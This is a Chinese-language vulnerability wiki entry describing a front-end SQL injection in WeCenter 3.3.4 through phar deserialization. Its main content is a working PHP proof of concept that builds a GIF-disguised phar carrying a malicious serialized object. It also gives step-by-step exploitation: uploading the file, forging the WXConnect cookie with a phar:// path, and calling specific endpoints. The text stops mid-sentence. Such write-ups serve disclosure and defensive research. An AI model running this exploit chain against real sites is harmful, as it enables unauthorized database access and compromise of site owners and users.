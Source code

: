 WeCenter 3.3.4 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意sql语句执行

**system/aws\_model.inc.php:\_\_destruct()** 方法中存在任意 **SQL**
语句执行。

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4前台sql注入/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4前台sql注入/media/rId28.png)

记录下上传后的目录

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4前台sql注入/media/rId29.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

    <?php
        $arr = array();
        $arr['access_token'] = array('openid' => '1');
        $arr['access_user'] = array();
        $arr['access_user']['openid'] = 1;
        $arr['access_user']['nickname'] = 'naiquan';
        $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
        echo json_encode($arr);
    ?>

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4前台sql注入/media/rId32.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![](/Users/aresx/Documents/VulWiki/.resource/WeCenter3.3.4前台sql注入/media/rId34.png)

任意
